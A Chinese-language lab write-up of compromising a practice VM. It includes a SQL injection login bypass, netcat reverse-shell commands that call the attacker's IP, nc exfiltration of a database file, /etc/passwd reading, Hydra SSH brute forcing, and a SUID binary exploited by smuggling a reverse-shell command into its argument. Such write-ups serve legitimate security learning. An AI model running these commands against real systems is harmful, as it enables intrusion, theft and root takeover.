# <font color = "#749DD6">第二次打靶</font>

### <font color = "#749DD6">0x01 环境</font>

靶机: Linux cloudav 4.15.0-189-generic #200-Ubuntu SMP Wed Jun 22 19:53:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

IP:192.158.1.13

攻击机: Linux kali 5.18.0-kali2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali1 (2022-06-20) x86_64 GNU/Linux 

IP:192.168.1.14

## <font color = "#749DD6">0x02 端口扫描</font>




## <font color = "#749DD6">0x03 破解登录页面 </font>



利用手工注入发现输入`"`时页面出现报错,那么就从这里入手



使用注入语句绕过登录机制

```
" or 1=1 or "
```


## <font color = "#749DD6">0x04 反弹Shell </font>

执行的命令

```
cat|nc 192.168.1.14 4444 | /bin/bash | nc 192.168.1.14 5555
```





反弹成功!

发现存在sql文件,查看一下

```
file database.sql
```



是一个SQLite3的数据库文件,利用nc下载到kali机器中.

```
nc 192.168.1.14 6666 -q 0 < database.sql
```

下载后导入到sqlite3中

```
.open database.sql   //打开数据库文件
.database    //查看加载的数据库文件
.dump    //显示数据库文件中的数据
```



接下来在反弹shell中查看可用于登录的账号

```
cat /etc/passwd | grep /bin/bash
```



发现存在三个可登录账号,接下来利用这三个账号和sql文件中的密码尝试进行爆破



## <font color = "#749DD6">0x05 Hydra 爆破ssh </font>

```
hydra -L user.txt -P passwd.txt ssh://192.168.1.13
```



结果不是很好,都不能登录,那么只能寻找其他的信息,结果发现有一个文件权限存在s,那么就可以利用它进行提权.



## <font color = "#749DD6">0x06 SUID 提权 </font>

首先执行这个文件发现报错,报错信息是个日志文件,先不用管他,大胆的尝试nc命令看能不能将root这个权限反弹过来


```
./update_cloudav "a | nc 192.168.1.14 8888 | /bin/bash | nc 192.168.1.14 9999"
```



发现提权成功.
